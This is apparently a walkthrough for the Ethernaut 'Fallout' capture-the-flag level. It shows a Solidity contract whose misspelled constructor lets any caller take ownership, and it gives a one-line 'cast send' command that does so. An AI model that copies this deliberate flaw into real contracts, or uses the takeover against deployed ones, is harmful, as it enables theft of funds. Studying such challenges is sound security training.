 ## Fallout Level Outline


**Difficulty : 2/10**

Claim ownership of the contract below to complete this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
    require(
      msg.sender == owner,
      "caller is not the owner"
    );
    _;
  }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x5732B2F88cbd19B6f01E3a96e9f0D90B917281E5)

## Solution

Notice how the contract's "contructor" is not really a constructor

### Walkthrough
##### 1. Call the "Fal1out()" function
```console
cast send $LEVEL_ADDRESS "Fal1out()" --private-key $PRIVATE_KEY
```


---

##### [:arrow_left: Back To Main Menu](../README.md)
